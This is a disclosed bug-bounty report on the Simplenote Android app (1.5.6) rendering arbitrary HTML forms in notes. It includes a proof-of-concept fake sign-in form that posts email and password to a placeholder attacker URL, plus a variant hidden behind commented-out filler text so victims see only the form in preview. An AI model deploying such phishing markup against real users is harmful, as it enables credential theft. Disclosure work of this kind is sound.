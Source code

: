 # Improper markup sanitisation in Simplenote Android application.

## Report Details
- **Report ID**: 297547
- **URL**: https://hackerone.com/reports/297547
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-12-13T16:37:48.424Z
- **Disclosed**: 2018-02-13T19:23:58.321Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
# Description

The Simplenote Android application (1.5.6) still allows users to embed fully-fledged forms.

```html
Sign in to Simplenote
<h1 class="signin">Please sign in</h1>
<br>
<form action="https://example.com/login.php" id="login" name="login">
   <fieldset class="classic-fieldset" style="border:none;">
      <div class="input-fields">
         <p style="margin-right: 10px;"><label for="email">Email</label><input id="email" name="email" placeholder="Email" required="" style="padding: 0.3em;font-size: 14px;font-size: 21px;font-weight: 300;max-width: 35em;height: 44px;border: px solid #f0f0f0;background: #fcfcfc;width: 350px;margin-left:20px;" type="email"></p>
         <div id="warn"></div>
         <p style="margin-right: 10px;"><label for="password">Password</label><input id="password" name="password" placeholder="Password" required="" style="padding: 0.3em;font-size: 14px;font-size: 21px;font-weight: 300;max-width: 35em;height: 44px;border: px solid #f0f0f0;background: #fcfcfc;width: 350px;margin-left:20px;" type="password"></p>
      </div>
      <br>
      <p><input class="submit button" type="submit" value="Sign In"></p>
      <p><input checked="checked" id="check" name="remember" type="checkbox" value="1"> <label class="option" for="remember">Remember Me</label></p>
      <p class="forgot"><a href="#">Forgot your password?</a></p>
   </fieldset>
</form>
```

{F246484}

A more convincing proof of concept could consist of hiding the form inside several paragraphs of text which are located in HTML comments. That way the victim is presented with what appears to be a text document in the editor panel and then the paragraphs disappear in the preview window.

```html
Sign in to Simplenote

<!-- Lorem ipsum dolor amet polaroid kogi cloud bread keffiyeh vegan DIY pour-over kombucha helvetica wayfarers. Vinyl retro meh cloud bread dreamcatcher af. Dreamcatcher squid twee, tumeric put a bird on it raclette direct trade. Crucifix leggings gluten-free retro la croix. Selvage beard subway tile hella roof party, everyday carry iceland waistcoat kombucha pug. Meh blog cred poke kogi XOXO PBR&B man bun vexillologist woke craft beer chicharrones keffiyeh.

Everyday carry butcher banh mi YOLO whatever shabby chic wayfarers fingerstache hashtag sartorial cloud bread dreamcatcher farm-to-table fashion axe. Post-ironic sartorial farm-to-table venmo next level franzen narwhal crucifix man braid quinoa. Before they sold out jean shorts squid, chicharrones woke scenester normcore church-key. Roof party skateboard lomo neutra disrupt freegan pop-up flannel post-ironic, semiotics art party glossier tilde. Ramps iPhone skateboard, selvage keffiyeh hammock organic fam literally +1 tote bag. Artisan humblebrag scenester retro, umami meggings gochujang cloud bread bespoke. Edison bulb cred pabst iPhone, vice chambray church-key.

Chambray affogato air plant direct trade wolf hot chicken selvage lo-fi franzen next level. Pinterest viral sriracha hell of celiac. Lo-fi knausgaard heirloom aesthetic street art, unicorn prism normcore distillery leggings vice kinfolk neutra twee lyft. Hexagon lo-fi mlkshk, hella wolf health goth viral pinterest.

Asymmetrical shabby chic normcore slow-carb banjo pug hashtag green juice la croix flannel. Four dollar toast 8-bit woke tumblr, YOLO hammock tattooed wolf health goth intelligentsia affogato freegan skateboard mustache. Adaptogen scenester portland health goth austin farm-to-table vexillologist normcore synth twee raw denim microdosing. XOXO paleo swag stumptown adaptogen kinfolk raclette authentic.

Shabby chic enamel pin vape, trust fund poutine brunch af jianbing. 8-bit four dollar toast quinoa fixie, lomo farm-to-table woke waistcoat selvage normcore palo santo vegan. Chambray chicharrones swag, kombucha celiac dreamcatcher venmo. Tousled leggings selvage unicorn. Hoodie whatever glossier, mixtape keytar kickstarter vaporware forage pug chicharrones slow-carb. Bushwick keffiyeh 90's vexillologist readymade yr, try-hard pabst prism messenger bag disrupt street art succulents fanny pack 8-bit. -->

<h1 class="signin">Please sign in</h1>
<br>
<form action="https://example.com/login.php" id="login" name="login">
   <fieldset class="classic-fieldset" style="border:none;">
      <div class="input-fields">
         <p style="margin-right: 10px;"><label for="email">Email</label><input id="email" name="email" placeholder="Email" required="" style="padding: 0.3em;font-size: 14px;font-size: 21px;font-weight: 300;max-width: 35em;height: 44px;border: px solid #f0f0f0;background: #fcfcfc;width: 350px;margin-left:20px;" type="email"></p>
         <div id="warn"></div>
         <p style="margin-right: 10px;"><label for="password">Password</label><input id="password" name="password" placeholder="Password" required="" style="padding: 0.3em;font-size: 14px;font-size: 21px;font-weight: 300;max-width: 35em;height: 44px;border: px solid #f0f0f0;background: #fcfcfc;width: 350px;margin-left:20px;" type="password"></p>
      </div>
      <br>
      <p><input class="submit button" type="submit" value="Sign In"></p>
      <p><input checked="checked" id="check" name="remember" type="checkbox" value="1"> <label class="option" for="remember">Remember Me</label></p>
      <p class="forgot"><a href="#">Forgot your password?</a></p>
   </fieldset>
</form>
```

The form HTML could be replaced with a little bit of JavaScript that dynamically generates the form. This would further increase the likelihood of this attack succeeding.

## Impact

Any user input is sent to an attacker's server when submitted via the form.

## Attachments
- screenshot_20171213-172400_1024.jpg
